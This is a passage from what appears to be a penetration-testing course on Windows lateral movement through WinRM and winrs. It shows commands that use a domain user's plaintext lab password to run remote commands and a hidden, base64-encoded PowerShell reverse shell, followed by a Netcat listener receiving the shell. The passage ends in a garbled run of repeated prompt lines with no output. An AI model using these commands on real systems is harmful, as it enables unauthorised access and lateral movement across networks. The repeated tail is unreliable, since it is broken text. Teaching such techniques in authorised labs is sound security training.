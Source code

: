 > Listing 9 - Executing the WMI payload with base64 reverse shell

Nice! We indeed managed to move laterally and gain privileges as the _jen_ domain user on an internal server by abusing WMI features.

As an alternative method to WMI for remote management, WinRM can be employed for remote host management. WinRM is the Microsoft version of the [_WS-Management_](https://en.wikipedia.org/wiki/WS-Management) protocol and it exchanges XML messages over HTTP and HTTPS. It uses TCP port 5986 for encrypted HTTPS traffic and port 5985 for plain HTTP.

In addition to its PowerShell implementation, which we'll cover later in this section, WinRM is implemented in numerous built-in utilities, such as [_winrs_](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/winrs) (Windows Remote Shell).

For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.

The winrs utility can be invoked by specifying the target host through the _\-r:_ argument and the username with _\-u:_ and password with _\-p_. As a final argument, we want to specify the commands to be executed on the remote host. For example, we want to run the hostname and whoami commands to prove that they are running on the remote target.

Since winrs only works for domain users, we'll execute the whole command once we've logged in as _jeff_ on CLIENT74 and provide _jen_'s credentials as command arguments.

```
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
FILES04
corp\jen
```

> Listing 10 - Executing commands remotely via WinRS

The output confirms that we have indeed executed the commands remotely on FILES04.

To convert this technique into a full lateral movement scenario, we just need to replace the previous commands with the base64 encoded reverse shell we wrote earlier.

```
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

> Listing 11 - Running the reverse-shell payload through WinRS

Once we run the above command after having set up a Netcat listener, we are welcomed with a reverse-shell from FILE04.

```
kali@kali:~$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.50.73] 65107
PS C:\Users\jen> hostname
FILES04
PS C:\Users\jen> whoami
corp\jen
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname